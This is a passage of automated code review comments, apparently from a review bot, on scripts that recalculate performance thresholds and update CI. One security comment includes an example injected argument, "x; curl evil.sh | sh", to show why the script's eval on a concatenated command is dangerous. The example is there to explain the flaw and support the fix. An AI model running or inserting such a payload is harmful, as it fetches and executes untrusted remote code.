+            print("\n📊 CLUSTER QUEUE UTILIZATION (minUsage %)")
+            print("-" * 80)
+            for cq_name, metrics in sorted(self.cluster_queue_metrics.items()):
+                print(f"\n  {cq_name}:")
+                self._print_metric_stats(metrics)
+        
+        if self.workload_class_metrics:
+            print("\n📊 WORKLOAD CLASS ADMISSION TIME (maxAvgTimeToAdmissionMs)")
+            print("-" * 80)
+            for wl_class, metrics in sorted(self.workload_class_metrics.items()):
+                print(f"\n  {wl_class}:")
+                self._print_metric_stats(metrics)
+    
+    def _print_metric_stats(self, metrics: MetricStats):
+        """Print statistics for a metric"""
+        if not metrics.values:
+            print("  No data")
+            return
+        
+        cv = (metrics.stddev / metrics.mean * 100) if metrics.mean > 0 else 0
+        print(f"  Runs:      {len(metrics.values)}")
+        print(f"  Mean:      {metrics.mean:,.0f}")
+        print(f"  StdDev:    {metrics.stddev:,.0f}")
+        print(f"  Min:       {metrics.min_val:,.0f}")
+        print(f"  Max:       {metrics.max_val:,.0f}")
+        print(f"  CV%:       {cv:.2f}%")
+
+
+def load_existing_rangespec(rangespec_path: Path) -> dict:
+    """Load existing rangespec.yaml to preserve comments and structure"""
+    if rangespec_path.exists():
+        with open(rangespec_path, 'r') as f:
+            return yaml.safe_load(f)
+    return {}
+
+
+def generate_rangespec_yaml(thresholds: dict, existing: dict = None) -> str:
+    """
+    Generate YAML content for rangespec.yaml with comments
+    """
+    yaml_content = """# Performance Test - Expected Performance Ranges
+#
+# Thresholds are automatically calculated based on historical test results
+# using statistical analysis (mean + margin).
+#
+# Last updated: """ + __import__('datetime').datetime.now().isoformat() + """
+#
+
+# Command execution limits
+# Threshold: mean + 20% rounded up to nearest 1000ms
+cmd:
+  maxWallMs: """ + str(thresholds['cmd']['maxWallMs']) + """
```

  _🎯 Functional Correctness_ | _🟠 Major_ | _⚡ Quick win_
  
  **Embedded timestamp makes every run produce a diff.**
  
  `Last updated: <now>` changes on every invocation, so `git diff --quiet` in `update_thresholds_ci.sh` (Line 173) never reports "no changes" and the CI workflow will open a PR even when no threshold value moved. Drop the timestamp (git history already records it) or emit only the date when values actually change.
  
  
  
  
  <details>
  <summary>🐛 Proposed fix</summary>
  
  ```diff
  -# Last updated: """ + __import__('datetime').datetime.now().isoformat() + """
  -#
  +# Generated by hack/performance-threshold-automation/calculate_performance_thresholds.py
  +#
  ```
  </details>
  
  <!-- suggestion_start -->
  
  <details>
  <summary>📝 Committable suggestion</summary>
  
  > ‼️ **IMPORTANT**
  > Carefully review the code before committing. Ensure that it accurately replaces the highlighted code, contains no missing lines, and has no issues with indentation. Thoroughly test & benchmark the code to ensure it meets the requirements.
  
  ```suggestion
      yaml_content = """# Performance Test - Expected Performance Ranges
  #
  # Thresholds are automatically calculated based on historical test results
  # using statistical analysis (mean + margin).
  #
  # Generated by hack/performance-threshold-automation/calculate_performance_thresholds.py
  #
  
  # Command execution limits
  # Threshold: mean + 20% rounded up to nearest 1000ms
  cmd:
    maxWallMs: """ + str(thresholds['cmd']['maxWallMs']) + """
  ```
  
  </details>
  
  <!-- suggestion_end -->
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@hack/performance-threshold-automation/calculate_performance_thresholds.py`
  around lines 254 - 265, Remove the dynamically generated “Last updated”
  timestamp from the yaml_content construction in the threshold generation flow,
  including the __import__('datetime').datetime.now() expression. Keep the
  threshold values and surrounding YAML output unchanged so repeated runs produce
  no diff when thresholds have not changed.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:aeaca35db0c898c23015f17d -->
  
  <!-- This is an auto-generated comment by CodeRabbit -->
  
  ✅ Addressed in commits 7f5e16a to 35467b2

- **hack/performance-threshold-automation/update_thresholds_ci.sh:166** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:23:00Z
```diff
@@ -0,0 +1,199 @@
+#!/bin/bash
+# CI/CD Integration script for performance threshold automation
+# 
+# Usage: ./update_thresholds_ci.sh [--baseline|--tas] [--dry-run]
+#
+# This script is designed to be run in CI/CD pipelines to automatically
+# update performance thresholds after test runs.
+
+set -o errexit
+set -o nounset
+set -o pipefail
+
+SCRIPT_DIR="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)"
+PROJECT_ROOT="$(git rev-parse --show-toplevel 2>/dev/null || echo ".")"
+
+# Colors for output
+RED='\033[0;31m'
+GREEN='\033[0;32m'
+YELLOW='\033[1;33m'
+BLUE='\033[0;34m'
+NC='\033[0m' # No Color
+
+# Default values
+TEST_TYPE="baseline"
+DRY_RUN=false
+ARTIFACTS_DIR="${PROJECT_ROOT}/artifacts"
+CMD_MARGIN=0.20
+UTIL_MARGIN=-0.07
+ADM_MARGIN=0.20
+
+# Function to print colored output
+print_info() {
+    echo -e "${BLUE}ℹ${NC} $*"
+}
+
+print_success() {
+    echo -e "${GREEN}✓${NC} $*"
+}
+
+print_warning() {
+    echo -e "${YELLOW}⚠${NC} $*"
+}
+
+print_error() {
+    echo -e "${RED}✗${NC} $*" >&2
+}
+
+# Function to print usage
+usage() {
+    cat <<EOF
+Usage: $0 [OPTIONS]
+
+Options:
+    --baseline          Run for baseline performance tests (default)
+    --tas              Run for TAS (Topology Aware Scheduling) tests
+    --dry-run          Show changes without writing files
+    --artifacts-dir    Custom artifacts directory
+    --cmd-margin       Command time margin (default: 0.20)
+    --util-margin      Utilization margin (default: -0.07)
+    --adm-margin       Admission time margin (default: 0.20)
+    --help             Show this help message
+EOF
+}
+
+# Parse command line arguments
+while [[ $# -gt 0 ]]; do
+    case $1 in
+        --baseline)
+            TEST_TYPE="baseline"
+            shift
+            ;;
+        --tas)
+            TEST_TYPE="tas"
+            shift
+            ;;
+        --dry-run)
+            DRY_RUN=true
+            shift
+            ;;
+        --artifacts-dir)
+            ARTIFACTS_DIR="$2"
+            shift 2
+            ;;
+        --cmd-margin)
+            CMD_MARGIN="$2"
+            shift 2
+            ;;
+        --util-margin)
+            UTIL_MARGIN="$2"
+            shift 2
+            ;;
+        --adm-margin)
+            ADM_MARGIN="$2"
+            shift 2
+            ;;
+        --help)
+            usage
+            exit 0
+            ;;
+        *)
+            print_error "Unknown option: $1"
+            usage
+            exit 1
+            ;;
+    esac
+done
+
+# Determine rangespec file based on test type
+if [ "$TEST_TYPE" = "tas" ]; then
+    RANGESPEC_FILE="${PROJECT_ROOT}/test/performance/scheduler/configs/tas/rangespec.yaml"
+    print_info "Running for TAS (Topology Aware Scheduling) tests"
+else
+    RANGESPEC_FILE="${PROJECT_ROOT}/test/performance/scheduler/configs/baseline/rangespec.yaml"
+    print_info "Running for baseline performance tests"
+fi
+
+print_info "Project root: ${PROJECT_ROOT}"
+print_info "Artifacts directory: ${ARTIFACTS_DIR}"
+print_info "Target rangespec: ${RANGESPEC_FILE}"
+
+# Check if Python is available
+if ! command -v python3 &> /dev/null; then
+    print_error "Python3 not found. Please install Python3 to use this script."
+    exit 1
+fi
+
+# Check if PyYAML is available
+if ! python3 -c "import yaml" 2>/dev/null; then
+    print_warning "PyYAML not found. Installing..."
+    pip install PyYAML || {
+        print_error "Failed to install PyYAML"
+        exit 1
+    }
+fi
+
+# Find the threshold calculation script
+CALC_SCRIPT="${SCRIPT_DIR}/calculate_performance_thresholds.py"
+if [ ! -f "$CALC_SCRIPT" ]; then
+    print_error "Threshold calculation script not found: ${CALC_SCRIPT}"
+    exit 1
+fi
+
+print_success "Found threshold calculation script"
+
+# Prepare command
+CMD="python3 ${CALC_SCRIPT}"
+CMD="${CMD} --artifacts-dir ${ARTIFACTS_DIR}"
+CMD="${CMD} --output ${RANGESPEC_FILE}"
+CMD="${CMD} --cmd-margin ${CMD_MARGIN}"
+CMD="${CMD} --util-margin ${UTIL_MARGIN}"
+CMD="${CMD} --admission-margin ${ADM_MARGIN}"
+
+if [ "$DRY_RUN" = true ]; then
+    CMD="${CMD} --dry-run"
+    print_info "DRY RUN MODE - No files will be written"
+fi
+
+# Run the calculation
+print_info "Running threshold calculation..."
+print_info "Command: ${CMD}"
+echo ""
+
+if ! eval "$CMD"; then
+    print_error "Threshold calculation failed"
+    exit 1
+fi
```

  _🔒 Security & Privacy_ | _🔴 Critical_ | _⚡ Quick win_
  
  **Replace the `eval`'d command string with an array.**
  
  Concatenating unquoted values into `CMD` and running `eval` means any path or margin containing whitespace breaks, and a value like `--artifacts-dir 'x; curl evil.sh | sh'` is executed as shell code. Since this runs in CI with repo write access, use an argv array instead.
  
  
  
  
  
  <details>
  <summary>🔒️ Proposed fix</summary>
  
  ```diff
  -CMD="python3 ${CALC_SCRIPT}"
  -CMD="${CMD} --artifacts-dir ${ARTIFACTS_DIR}"
  -CMD="${CMD} --output ${RANGESPEC_FILE}"
  -CMD="${CMD} --cmd-margin ${CMD_MARGIN}"
  -CMD="${CMD} --util-margin ${UTIL_MARGIN}"
  -CMD="${CMD} --admission-margin ${ADM_MARGIN}"
  +CMD=(python3 "${CALC_SCRIPT}"
  +     --artifacts-dir "${ARTIFACTS_DIR}"
  +     --output "${RANGESPEC_FILE}"
  +     --cmd-margin "${CMD_MARGIN}"
  +     --util-margin "${UTIL_MARGIN}"
  +     --admission-margin "${ADM_MARGIN}")
   
   if [ "$DRY_RUN" = true ]; then
  -    CMD="${CMD} --dry-run"
  +    CMD+=(--dry-run)
       print_info "DRY RUN MODE - No files will be written"
   fi
   
   # Run the calculation
   print_info "Running threshold calculation..."
  -print_info "Command: ${CMD}"
  +print_info "Command: ${CMD[*]}"
   echo ""
   
  -if ! eval "$CMD"; then
  +if ! "${CMD[@]}"; then
       print_error "Threshold calculation failed"
       exit 1
   fi
  ```
  </details>
  
  <!-- suggestion_start -->
  
  <details>
  <summary>📝 Committable suggestion</summary>
  
  > ‼️ **IMPORTANT**
  > Carefully review the code before committing. Ensure that it accurately replaces the highlighted code, contains no missing lines, and has no issues with indentation. Thoroughly test & benchmark the code to ensure it meets the requirements.
  
  ```suggestion
  # Prepare command
  CMD=(python3 "${CALC_SCRIPT}"
       --artifacts-dir "${ARTIFACTS_DIR}"
       --output "${RANGESPEC_FILE}"
       --cmd-margin "${CMD_MARGIN}"
       --util-margin "${UTIL_MARGIN}"
       --admission-margin "${ADM_MARGIN}")
  
  if [ "$DRY_RUN" = true ]; then
      CMD+=(--dry-run)
      print_info "DRY RUN MODE - No files will be written"
  fi
  
  # Run the calculation
  print_info "Running threshold calculation..."
  print_info "Command: ${CMD[*]}"
  echo ""
  
  if ! "${CMD[@]}"; then
      print_error "Threshold calculation failed"
      exit 1
  fi
  ```
  
  </details>
  
  <!-- suggestion_end -->
  
  <details>
  <summary>🧰 Tools</summary>
  
  <details>
  <summary>🪛 ast-grep (0.45.0)</summary>
  
  [error] 162-162: `eval` is invoked on a variable, parameter expansion, or command-substitution result, which re-parses the value as shell code. If any part of that value is attacker-controlled (arguments, environment, file contents, network output), it allows arbitrary command execution. Do not `eval` dynamic data: invoke the command directly with proper quoting (e.g. `"$cmd" "$arg"`), use arrays for argument lists (`cmd=(prog --flag "$value"); "${cmd[@]}"`), or restrict input to a validated allowlist before running it.
  Context: eval "$CMD"
  Note: [CWE-78] Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection').
  
  (eval-on-variable-bash)
  
  </details>
  
  </details>
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@hack/performance-threshold-automation/update_thresholds_ci.sh` around lines
  145 - 166, Replace the string-based CMD construction and eval invocation with a
  Bash argv array, appending each option and its value as separate quoted
  elements, including the conditional --dry-run flag. Execute the array directly
  in the threshold calculation block while preserving the existing logging,
  failure handling, and command display behavior.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:33d66f12a5c61839903b1683 -->
  
  _Source: Linters/SAST tools_
  
  <!-- This is an auto-generated comment by CodeRabbit -->

- **hack/performance-threshold-automation/update_thresholds_ci.sh:176** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:23:00Z
```diff
@@ -0,0 +1,199 @@
+#!/bin/bash
+# CI/CD Integration script for performance threshold automation
+# 
+# Usage: ./update_thresholds_ci.sh [--baseline|--tas] [--dry-run]
+#
+# This script is designed to be run in CI/CD pipelines to automatically
+# update performance thresholds after test runs.
+
+set -o errexit
+set -o nounset
+set -o pipefail
+
+SCRIPT_DIR="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)"
+PROJECT_ROOT="$(git rev-parse --show-toplevel 2>/dev/null || echo ".")"
+
+# Colors for output
+RED='\033[0;31m'
+GREEN='\033[0;32m'
+YELLOW='\033[1;33m'
+BLUE='\033[0;34m'
+NC='\033[0m' # No Color
+
+# Default values
+TEST_TYPE="baseline"
+DRY_RUN=false
+ARTIFACTS_DIR="${PROJECT_ROOT}/artifacts"
+CMD_MARGIN=0.20
+UTIL_MARGIN=-0.07
+ADM_MARGIN=0.20
+
+# Function to print colored output
+print_info() {
+    echo -e "${BLUE}ℹ${NC} $*"
+}
+
+print_success() {
+    echo -e "${GREEN}✓${NC} $*"
+}
+
+print_warning() {
+    echo -e "${YELLOW}⚠${NC} $*"
+}
+
+print_error() {
+    echo -e "${RED}✗${NC} $*" >&2
+}
+
+# Function to print usage
+usage() {
+    cat <<EOF
+Usage: $0 [OPTIONS]
+
+Options:
+    --baseline          Run for baseline performance tests (default)
+    --tas              Run for TAS (Topology Aware Scheduling) tests
+    --dry-run          Show changes without writing files
+    --artifacts-dir    Custom artifacts directory
+    --cmd-margin       Command time margin (default: 0.20)
+    --util-margin      Utilization margin (default: -0.07)
+    --adm-margin       Admission time margin (default: 0.20)
+    --help             Show this help message
+EOF
+}
+
+# Parse command line arguments
+while [[ $# -gt 0 ]]; do
+    case $1 in
+        --baseline)
+            TEST_TYPE="baseline"
+            shift
+            ;;
+        --tas)
+            TEST_TYPE="tas"
+            shift
+            ;;
+        --dry-run)
+            DRY_RUN=true
+            shift
+            ;;
+        --artifacts-dir)
+            ARTIFACTS_DIR="$2"
+            shift 2
+            ;;
+        --cmd-margin)
+            CMD_MARGIN="$2"
+            shift 2
+            ;;
+        --util-margin)
+            UTIL_MARGIN="$2"
+            shift 2
+            ;;
+        --adm-margin)
+            ADM_MARGIN="$2"
+            shift 2
+            ;;
+        --help)
+            usage
+            exit 0
+            ;;
+        *)
+            print_error "Unknown option: $1"
+            usage
+            exit 1
+            ;;
+    esac
+done
+
+# Determine rangespec file based on test type
+if [ "$TEST_TYPE" = "tas" ]; then
+    RANGESPEC_FILE="${PROJECT_ROOT}/test/performance/scheduler/configs/tas/rangespec.yaml"
+    print_info "Running for TAS (Topology Aware Scheduling) tests"
+else
+    RANGESPEC_FILE="${PROJECT_ROOT}/test/performance/scheduler/configs/baseline/rangespec.yaml"
+    print_info "Running for baseline performance tests"
+fi
+
+print_info "Project root: ${PROJECT_ROOT}"
+print_info "Artifacts directory: ${ARTIFACTS_DIR}"
+print_info "Target rangespec: ${RANGESPEC_FILE}"
+
+# Check if Python is available
+if ! command -v python3 &> /dev/null; then
+    print_error "Python3 not found. Please install Python3 to use this script."
+    exit 1
+fi
+
+# Check if PyYAML is available
+if ! python3 -c "import yaml" 2>/dev/null; then
+    print_warning "PyYAML not found. Installing..."
+    pip install PyYAML || {
+        print_error "Failed to install PyYAML"
+        exit 1
+    }
+fi
+
+# Find the threshold calculation script
+CALC_SCRIPT="${SCRIPT_DIR}/calculate_performance_thresholds.py"
+if [ ! -f "$CALC_SCRIPT" ]; then
+    print_error "Threshold calculation script not found: ${CALC_SCRIPT}"
+    exit 1
+fi
+
+print_success "Found threshold calculation script"
+
+# Prepare command
+CMD="python3 ${CALC_SCRIPT}"
+CMD="${CMD} --artifacts-dir ${ARTIFACTS_DIR}"
+CMD="${CMD} --output ${RANGESPEC_FILE}"
+CMD="${CMD} --cmd-margin ${CMD_MARGIN}"
+CMD="${CMD} --util-margin ${UTIL_MARGIN}"
+CMD="${CMD} --admission-margin ${ADM_MARGIN}"
+
+if [ "$DRY_RUN" = true ]; then
+    CMD="${CMD} --dry-run"
+    print_info "DRY RUN MODE - No files will be written"
+fi
+
+# Run the calculation
+print_info "Running threshold calculation..."
+print_info "Command: ${CMD}"
+echo ""
+
+if ! eval "$CMD"; then
+    print_error "Threshold calculation failed"
+    exit 1
+fi
+
+echo ""
+
+# Post-run actions (only if not dry-run)
+if [ "$DRY_RUN" = false ]; then
+    # Check if thresholds changed
+    if git diff --quiet "${RANGESPEC_FILE}" 2>/dev/null; then
+        print_warning "No changes to rangespec file"
+    else
+        print_success "Rangespec file updated successfully"
```

  _🎯 Functional Correctness_ | _🟡 Minor_ | _⚡ Quick win_
  
  **`git diff --quiet` misses an untracked rangespec file.**
  
  If the target rangespec doesn't exist in the index yet, `git diff --quiet` succeeds and the script reports "No changes" despite having just written the file. Use `git status --porcelain -- "${RANGESPEC_FILE}"` to cover both cases.
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@hack/performance-threshold-automation/update_thresholds_ci.sh` around lines
  171 - 176, Update the threshold-change check in the DRY_RUN=false branch to use
  git status --porcelain for RANGESPEC_FILE instead of git diff --quiet, so both
  tracked modifications and untracked newly created files are detected; preserve
  the existing warning and success messages based on whether status output is
  empty.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:medusa:komodo -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:1f4e89bf7118a16737d62b63 -->
  
  <!-- This is an auto-generated comment by CodeRabbit -->

- **install_threshold_automation.sh:22** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:23:00Z
```diff
@@ -0,0 +1,335 @@
+#!/bin/bash
+# Automated installation script for Performance Threshold Automation
+#
+# This script sets up the entire performance threshold automation feature
+# in one command.
+#
+# Usage: bash install_threshold_automation.sh
+
+set -o errexit
+set -o nounset
+set -o pipefail
+
+# Colors for output
+RED='\033[0;31m'
+GREEN='\033[0;32m'
+YELLOW='\033[1;33m'
+BLUE='\033[0;34m'
+NC='\033[0m' # No Color
+
+# Get repository root
+REPO_ROOT="$(git rev-parse --show-toplevel 2>/dev/null || pwd)"
+AUTOMATION_DIR="${REPO_ROOT}/hack/performance-threshold-automation"
```

  _🗄️ Data Integrity & Integration_ | _🟠 Major_ | _🏗️ Heavy lift_
  
  **Separate and validate the installer’s source and target roots.**
  
  The target is derived from the caller’s working directory, while assets are resolved beside this script. In this PR, the calculator/helper live under `hack/performance-threshold-automation` and the workflow under `.github/workflows`, so these source paths do not resolve to the shipped files. Invoking the script from another checkout can also modify that checkout. Use explicit source/target roots, map the known asset locations, and reject identical source/destination paths.
  
  
  
  
  
  
  
  Also applies to: 121-122, 140-141, 199-200
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@install_threshold_automation.sh` around lines 20 - 22, Update the installer’s
  root handling around REPO_ROOT and AUTOMATION_DIR to separate the script’s
  source repository from the caller-selected target repository. Resolve source
  assets relative to the installer location, map the calculator/helper and
  workflow to their actual source paths, use the caller’s repository only as the
  destination, and validate that source and destination roots are not identical
  before modifying files.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:poseidon:terra -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:d529abd84972c0118a6d3672 -->
  
  <!-- This is an auto-generated comment by CodeRabbit -->

- **install_threshold_automation.sh:213** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:23:00Z
```diff
@@ -0,0 +1,335 @@
+#!/bin/bash
+# Automated installation script for Performance Threshold Automation
+#
+# This script sets up the entire performance threshold automation feature
+# in one command.
+#
+# Usage: bash install_threshold_automation.sh
+
+set -o errexit
+set -o nounset
+set -o pipefail
+
+# Colors for output
+RED='\033[0;31m'
+GREEN='\033[0;32m'
+YELLOW='\033[1;33m'
+BLUE='\033[0;34m'
+NC='\033[0m' # No Color
+
+# Get repository root
+REPO_ROOT="$(git rev-parse --show-toplevel 2>/dev/null || pwd)"
+AUTOMATION_DIR="${REPO_ROOT}/hack/performance-threshold-automation"
+
+print_header() {
+    echo ""
+    echo -e "${BLUE}╔════════════════════════════════════════════════════════════╗${NC}"
+    echo -e "${BLUE}║${NC} $1"
+    echo -e "${BLUE}╚════════════════════════════════════════════════════════════╝${NC}"
+    echo ""
+}
+
+print_info() {
+    echo -e "${BLUE}ℹ${NC} $*"
+}
+
+print_success() {
+    echo -e "${GREEN}✓${NC} $*"
+}
+
+print_warning() {
+    echo -e "${YELLOW}⚠${NC} $*"
+}
+
+print_error() {
+    echo -e "${RED}✗${NC} $*" >&2
+}
+
+# Check requirements
+check_requirements() {
+    print_header "Checking Requirements"
+    
+    local missing=0
+    
+    # Check Python
+    if ! command -v python3 &> /dev/null; then
+        print_error "Python 3 not found. Please install Python 3."
+        missing=$((missing + 1))
+    else
+        print_success "Python 3 found: $(python3 --version)"
+    fi
+    
+    # Check Git
+    if ! command -v git &> /dev/null; then
+        print_error "Git not found. Please install Git."
+        missing=$((missing + 1))
+    else
+        print_success "Git found: $(git --version | head -1)"
+    fi
+    
+    # Check Bash
+    if ! command -v bash &> /dev/null; then
+        print_error "Bash not found."
+        missing=$((missing + 1))
+    else
+        print_success "Bash found"
+    fi
+    
+    if [ $missing -gt 0 ]; then
+        print_error "Please install missing dependencies and try again."
+        exit 1
+    fi
+}
+
+# Check PyYAML
+check_pyyaml() {
+    print_header "Checking Python Dependencies"
+    
+    if python3 -c "import yaml" 2>/dev/null; then
+        print_success "PyYAML is installed"
+    else
+        print_warning "PyYAML not found. Installing..."
+        if pip install PyYAML; then
+            print_success "PyYAML installed successfully"
+        else
+            print_error "Failed to install PyYAML. Try: pip install PyYAML"
+            return 1
+        fi
+    fi
+}
+
+# Create directory structure
+setup_directories() {
+    print_header "Setting Up Directories"
+    
+    if [ -d "${AUTOMATION_DIR}" ]; then
+        print_warning "Directory already exists: ${AUTOMATION_DIR}"
+    else
+        mkdir -p "${AUTOMATION_DIR}"
+        print_success "Created directory: ${AUTOMATION_DIR}"
+    fi
+    
+    mkdir -p "${REPO_ROOT}/.github/workflows"
+    print_success "Ensured .github/workflows exists"
+}
+
+# Copy main script
+copy_main_script() {
+    print_header "Installing Main Script"
+    
+    local script_name="calculate_performance_thresholds.py"
+    local source_file="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)/${script_name}"
+    local dest_file="${AUTOMATION_DIR}/${script_name}"
+    
+    if [ ! -f "${source_file}" ]; then
+        print_error "Source file not found: ${source_file}"
+        print_info "Make sure you're running this script from the directory containing the installation files."
+        return 1
+    fi
+    
+    cp "${source_file}" "${dest_file}"
+    chmod +x "${dest_file}"
+    print_success "Installed: ${dest_file}"
+}
+
+# Copy shell script
+copy_shell_script() {
+    print_header "Installing Shell Helper Script"
+    
+    local script_name="update_thresholds_ci.sh"
+    local source_file="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)/${script_name}"
+    local dest_file="${AUTOMATION_DIR}/${script_name}"
+    
+    if [ ! -f "${source_file}" ]; then
+        print_warning "Source file not found: ${source_file}"
+        print_info "Skipping shell script installation"
+        return 0
+    fi
+    
+    cp "${source_file}" "${dest_file}"
+    chmod +x "${dest_file}"
+    print_success "Installed: ${dest_file}"
+}
+
+# Copy documentation
+copy_documentation() {
+    print_header "Installing Documentation"
+    
+    local source_file="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)/THRESHOLD_AUTOMATION_README.md"
+    local dest_file="${AUTOMATION_DIR}/README.md"
+    
+    if [ ! -f "${source_file}" ]; then
+        print_warning "Documentation not found, skipping: ${source_file}"
+        return 0
+    fi
+    
+    cp "${source_file}" "${dest_file}"
+    print_success "Installed: ${dest_file}"
+}
+
+# Copy Makefile targets
+copy_makefile_targets() {
+    print_header "Integrating Makefile Targets"
+    
+    local source_file="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)/Makefile.perf-targets"
+    local makefile="${REPO_ROOT}/Makefile"
+    
+    if [ ! -f "${source_file}" ]; then
+        print_warning "Makefile targets not found, skipping: ${source_file}"
+        return 0
+    fi
+    
+    # Check if targets already added
+    if grep -q "update-performance-thresholds" "${makefile}"; then
+        print_warning "Makefile targets already exist, skipping"
+        return 0
+    fi
+    
+    # Append targets to Makefile
+    echo "" >> "${makefile}"
+    echo "# Performance Threshold Automation Targets" >> "${makefile}"
+    cat "${source_file}" >> "${makefile}"
+    print_success "Added targets to: ${makefile}"
+}
+
+# Setup GitHub Actions workflow
+copy_workflow() {
+    print_header "Setting Up GitHub Actions Workflow"
+    
+    local source_file="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)/performance-threshold-update.yml"
+    local dest_file="${REPO_ROOT}/.github/workflows/performance-threshold-update.yml"
+    
+    if [ ! -f "${source_file}" ]; then
+        print_warning "Workflow file not found, skipping: ${source_file}"
+        return 0
+    fi
+    
+    if [ -f "${dest_file}" ]; then
+        print_warning "Workflow already exists: ${dest_file}"
+        return 0
+    fi
+    
+    cp "${source_file}" "${dest_file}"
+    print_success "Installed GitHub Actions workflow: ${dest_file}"
```

  _🎯 Functional Correctness_ | _🟡 Minor_ | _⚡ Quick win_
  
  **Remove the auto-close reference from the copied workflow.**
  
  The workflow installed here generates a commit message containing `Closes `#12841``, which can close that fixed issue when the generated PR merges. Keep issue linkage in the PR description instead.
  
  As per coding guidelines, “Do not include auto-close issue keywords or `#` mentions in commit messages; put issue references in pull request descriptions instead.”
  
  <details>
  <summary>🤖 Prompt for AI Agents</summary>
  
  ```
  Verify each finding against current code. Fix only still-valid issues, skip the
  rest with a brief reason, keep changes minimal, and validate.
  
  In `@install_threshold_automation.sh` around lines 212 - 213, Update the workflow
  installation logic around the cp and print_success steps to remove the
  auto-close reference from the copied workflow’s generated commit message, while
  preserving issue linkage only in the pull request description. Ensure the
  installed workflow no longer emits “Closes `#12841`” or equivalent auto-close/#
  mention text in commit messages.
  ```
  
  </details>
  
  <!-- fingerprinting:phantom:poseidon:terra -->
  
  <!-- cr-indicator-types:potential_issue -->
  
  <!-- cr-comment:v1:d8bbcaed8a86beff10fb98f2 -->
  
  _Source: Coding guidelines_
  
  <!-- This is an auto-generated comment by CodeRabbit -->

- **install_threshold_automation.sh:266** by [@coderabbitai[bot]](https://github.com/apps/coderabbitai) — 2026-07-29T05:23:00Z
```diff
@@ -0,0 +1,335 @@
+#!/bin/bash
+# Automated installation script for Performance Threshold Automation
+#
+# This script sets up the entire performance threshold automation feature
+# in one command.
+#
+# Usage: bash install_threshold_automation.sh
+
+set -o errexit
+set -o nounset
+set -o pipefail
+
+# Colors for output
+RED='\033[0;31m'
+GREEN='\033[0;32m'
+YELLOW='\033[1;33m'
+BLUE='\033[0;34m'
+NC='\033[0m' # No Color
+
+# Get repository root
+REPO_ROOT="$(git rev-parse --show-toplevel 2>/dev/null || pwd)"
+AUTOMATION_DIR="${REPO_ROOT}/hack/performance-threshold-automation"
+
+print_header() {
+    echo ""
+    echo -e "${BLUE}╔════════════════════════════════════════════════════════════╗${NC}"
+    echo -e "${BLUE}║${NC} $1"
+    echo -e "${BLUE}╚════════════════════════════════════════════════════════════╝${NC}"
+    echo ""
+}
+
+print_info() {
+    echo -e "${BLUE}ℹ${NC} $*"
+}
+
+print_success() {
+    echo -e "${GREEN}✓${NC} $*"
+}
+
+print_warning() {
+    echo -e "${YELLOW}⚠${NC} $*"
+}
+
+print_error() {
+    echo -e "${RED}✗${NC} $*" >&2
+}
+
+# Check requirements
+check_requirements() {
+    print_header "Checking Requirements"
+    
+    local missing=0
+    
+    # Check Python
+    if ! command -v python3 &> /dev/null; then
+        print_error "Python 3 not found. Please install Python 3."
+        missing=$((missing + 1))
+    else
+        print_success "Python 3 found: $(python3 --version)"
+    fi
+    
+    # Check Git
+    if ! command -v git &> /dev/null; then
+        print_error "Git not found. Please install Git."
+        missing=$((missing + 1))
+    else
+        print_success "Git found: $(git --version | head -1)"
+    fi
+    
+    # Check Bash
+    if ! command -v bash &> /dev/null; then
+        print_error "Bash not found."
+        missing=$((missing + 1))
+    else
+        print_success "Bash found"
+    fi
+    
+    if [ $missing -gt 0 ]; then
+        print_error "Please install missing dependencies and try again."
+        exit 1
+    fi
+}
+
+# Check PyYAML
+check_pyyaml() {
+    print_header "Checking Python Dependencies"
+    
+    if python3 -c "import yaml" 2>/dev/null; then
+        print_success "PyYAML is installed"
+    else
+        print_warning "PyYAML not found. Installing..."
+        if pip install PyYAML; then
+            print_success "PyYAML installed successfully"
+        else
+            print_error "Failed to install PyYAML. Try: pip install PyYAML"
+            return 1
+        fi
+    fi
+}
+
+# Create directory structure
+setup_directories() {
+    print_header "Setting Up Directories"
+    
+    if [ -d "${AUTOMATION_DIR}" ]; then
+        print_warning "Directory already exists: ${AUTOMATION_DIR}"
+    else
+        mkdir -p "${AUTOMATION_DIR}"
+        print_success "Created directory: ${AUTOMATION_DIR}"
+    fi
+    
+    mkdir -p "${REPO_ROOT}/.github/workflows"
+    print_success "Ensured .github/workflows exists"
+}
+
+# Copy main script
+copy_main_script() {
+    print_header "Installing Main Script"
+    
+    local script_name="calculate_performance_thresholds.py"
+    local source_file="$(cd "$(dirname "${BASH_SOURCE[0]}")" && pwd)/${script_name}"
